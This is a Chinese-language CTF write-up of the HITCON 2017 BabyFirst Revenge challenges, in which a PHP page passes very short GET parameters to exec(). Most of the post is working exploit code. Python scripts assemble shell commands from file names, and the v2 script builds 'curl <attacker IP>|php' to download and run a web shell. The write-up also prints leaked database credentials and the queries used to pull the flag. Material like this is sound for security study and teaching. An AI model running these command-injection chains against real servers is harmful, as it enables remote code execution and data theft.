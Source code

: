 ```yaml
---
comments: true
title: HITCON CTF 2017 BabyFirst Revenge & v2 writeup
tags: [ctf,命令注入]
date: 2017-11-12 17:14:27
categories: writeup
description: 绕过四个字符限制getshell
---
```


> from HITCON CTF 2017
> 2017/11/04 02:00 UTC ~ 2017/11/06 02:00 UTC
>
> https://ctf2017.hitcon.org/

### BabyFirst Revenge

> Do you remember [BabyFirst](https://github.com/orangetw/My-CTF-Web-Challenges#babyfirst) from HITCON CTF 2015?
>
> This is the harder version!
>
> <http://52.199.204.34/>

#### 源码

```php
<?php
    $sandbox = '/www/sandbox/' . md5("orange" . $_SERVER['REMOTE_ADDR']);
    @mkdir($sandbox);
    @chdir($sandbox);
    if (isset($_GET['cmd']) && strlen($_GET['cmd']) <= 5) {
        @exec($_GET['cmd']);
    } else if (isset($_GET['reset'])) {
        @exec('/bin/rm -rf ' . $sandbox);
    }
    highlight_file(__FILE__);
```

#### 解法

详细说明：http://bobao.360.cn/ctf/detail/214.html

拿到shell后在`/home/fl4444g/README.txt`  得到数据库配置信息，然后连接数据库得到flag。

```python
http://52.199.204.34/sandbox/___MD5___of___ip/shell.php?cmd=cat%20/home/fl4444g/README.txt
#    Flag is in the MySQL database
#fl4444g / SugZXUtgeJ52_Bvr

http://52.199.204.34/sandbox/___MD5___of___ip/fun.php?cmd=mysql -ufl4444g -pSugZXUtgeJ52_Bvr -e "show databases;"
#    Database
#information_schema
#fl4gdb

http://52.199.204.34/sandbox/___MD5___of___ip/fun.php?cmd=mysql -ufl4444g -pSugZXUtgeJ52_Bvr -e "select concat(table_name) from information_schema.tables where table_schema='fl4gdb';"
#    concat(table_name)
#this_is_the_fl4g

http://52.199.204.34/sandbox/___MD5___of___ip/fun.php?cmd=mysql -ufl4444g -pSugZXUtgeJ52_Bvr -e "use fl4gdb;select * from this_is_the_fl4g"
#    secret
#hitcon{idea_from_phith0n,thank_you:)}
```



![](getFlag.png)

#### EXP

```python
# by https://findneo.github.io/
import requests as r
import hashlib
url = 'http://52.199.204.34/'
# 查询自己的IP
ip = r.get('http://ipv4.icanhazip.com/').text.strip()
sandbox = url + 'sandbox/' + hashlib.md5('orange' + ip).hexdigest() + '/'

reset = url + '?reset'
cmd = url + '?cmd='
build = ['>cur\\',
         '>l\ \\',
         'ls>A',
         'rm c*',
         'rm l*',
         '>105\\',
         '>304\\',
         '>301\\',
         '>9\>\\',
         'ls>>A',
         'sh A',
         'php A'
         ]
# 如果目标服务器有GET，这个也是可以打的
# build = ['>GE\\',
#          '>T\\ \\',
#          'ls>A',
#          'rm G*',
#          'rm T*',
#          '>105\\',
#          '>304\\',
#          '>301\\',
#          '>9\>\\',
#          'ls>>A']
r.get(reset)
for i in build:
    s = r.get(cmd + i)
    print '[%s]' % s.status_code, s.url

s = r.get(sandbox + 'fun.php?cmd=uname -a')
print '\n' + '[%s]' % s.status_code, s.url
print s.text

```

#### 更多解答

https://github.com/orangetw/My-CTF-Web-Challenges#babyfirst-revenge

### BabyFirst Revenge v2

> BabyFirst Revenge v2
> This is the hardest version! Short enough?
>
> http://52.197.41.31/

#### 源码

```php
<?php
    $sandbox = '/www/sandbox/' . md5("orange" . $_SERVER['REMOTE_ADDR']);
    @mkdir($sandbox);
    @chdir($sandbox);
    if (isset($_GET['cmd']) && strlen($_GET['cmd']) <= 4) {
        @exec($_GET['cmd']);
    } else if (isset($_GET['reset'])) {
        @exec('/bin/rm -rf ' . $sandbox);
    }
    highlight_file(__FILE__);
```

#### 解法

这题是赛后看wp复现的，只到拿webshell的部分。

详细说明： http://bobao.360.cn/ctf/detail/214.html

#### EXP

```python
#-*-coding:utf8-*-
# by https://findneo.github.io/
import requests as r
from time import sleep
import random
import hashlib
target = 'http://52.197.41.31/'

# 存放待下载文件的公网主机的IP
shell_ip = 'xx.xx.xx.xx'

# 本机IP
your_ip = r.get('http://ipv4.icanhazip.com/').text.strip()

# 将shell_IP转换成十六进制
ip = '0x' + ''.join([str(hex(int(i))[2:].zfill(2))
                     for i in shell_ip.split('.')])

reset = target + '?reset'
cmd = target + '?cmd='
sandbox = target + 'sandbox/' + \
    hashlib.md5('orange' + your_ip).hexdigest() + '/'

# payload某些位置的可选字符
pos0 = random.choice('efgh')
pos1 = random.choice('hkpq')
pos2 = 'g'  # 随意选择字符

payload = [
    '>dir',
    # 创建名为 dir 的文件

    '>%s\>' % pos0,
    # 假设pos0选择 f , 创建名为 f> 的文件

    '>%st-' % pos1,
    # 假设pos1选择 k , 创建名为 kt- 的文件,必须加个pos1，
    # 因为alphabetical序中t>s

    '>sl',
    # 创建名为 >sl 的文件；到此处有四个文件，
    # ls 的结果会是：dir f> kt- sl

    '*>v',
    # * 相当于 `ls` ，那么这条命令等价于 `dir f> kt- sl`>v ，
    #  dir是不换行的，所以这时会创建文件 v 并写入 f> kt- sl
    # 非常奇妙，这里的文件名是 v ，只能是v ，没有可选字符

    '>rev',
    # 创建名为 rev 的文件，这时当前目录下 ls 的结果是： dir f> kt- rev sl v

    '*v>%s' % pos2,
    # 魔法发生在这里： *v 相当于 rev v ，* 看作通配符。体会一下。
    # 这时pos2文件，也就是 g 文件内容是文件v内容的反转： ls -tk > f

    # 续行分割 curl 0x11223344|php 并逆序写入
    '>p',
    '>ph\\',
    '>\|\\',
    '>%s\\' % ip[8:10],
    '>%s\\' % ip[6:8],
    '>%s\\' % ip[4:6],
    '>%s\\' % ip[2:4],
    '>%s\\' % ip[0:2],
    '>\ \\',
    '>rl\\',
    '>cu\\',

    'sh ' + pos2,
    # sh g ;g 的内容是 ls -tk > f ，那么就会把逆序的命令反转回来，
    # 虽然 f 的文件头部会有杂质，但不影响有效命令的执行
    'sh ' + pos0,
    # sh f 执行curl命令，下载文件，写入木马。
]

s = r.get(reset)
for i in payload:
    assert len(i) <= 4
    s = r.get(cmd + i)
    print '[%d]' % s.status_code, s.url
    sleep(0.1)
s = r.get(sandbox + 'fun.php?cmd=uname -a')
print '[%d]' % s.status_code, s.url
print s.text

```

#### 更多解答

https://github.com/orangetw/My-CTF-Web-Challenges#babyfirst-revenge-v2

### 参考链接

[来自小密圈里的那些奇技淫巧](https://speakerdeck.com/player/f81159300925466c88335f3cf740beb6) 